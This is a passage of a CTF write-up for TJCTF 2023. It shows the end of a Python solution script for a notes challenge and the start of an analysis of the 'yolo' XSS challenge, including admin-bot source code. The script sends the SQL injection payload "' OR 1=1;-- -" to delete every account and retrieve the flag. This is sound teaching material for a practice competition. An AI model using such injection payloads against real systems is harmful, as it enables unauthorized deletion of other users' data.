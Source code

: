 ```python
s2 = requests.Session()
r2 = s2.post('https://notes-dd58abacdabdcce9.tjc.tf/register', headers=headers, data=data, verify=False)
print("[+] Done Create 2nd account")

# (4) Delete all account without destroy the session for username = "test" using 2nd account
data = {
    "password":"' OR 1=1;-- -"
}
r2 = s2.post('https://notes-dd58abacdabdcce9.tjc.tf/user/delete', headers=headers, data=data, verify=False)
print("[+] Done delete account")

# (5) Get Flag
for i in s.get('https://notes-dd58abacdabdcce9.tjc.tf/',cookies=cookies).text.split():
    if "tjctf" in i:
        print("[+] Found flag: "+i)
        break
```


![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/8_tjctf2023/tjctf_4.png)

#### Web : yolo

> I found this website that makes me really emotional because it's so motivational...

**Source Code (server.zip)** : [server.zip](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/TJCTF/2023/web/yolo)

This challenge has two links: one for sending a URL to the admin and another one for us to post something. Usually, this challenge might be related to Cross-Site Scripting (XSS). First, let us find out where the flag is located.

The flag can be found in the admin notes within the `toDo` section. Therefore, we need to discover the endpoint that allows us to browse the note.

```js
import flag from './flag.txt';

function sleep(time) {
    return new Promise(resolve => {
        setTimeout(resolve, time);
    });
}

export default {
    id: 'yolo',
    name: 'yolo',
    urlRegex: /^https:\/\/yolo\.tjc\.tf\//,
    timeout: 10000,
    handler: async (url, ctx) => {
        const page = await ctx.newPage();
        await page.goto('https://yolo.tjc.tf', { waitUntil: 'domcontentloaded' });

        await sleep(1000);
```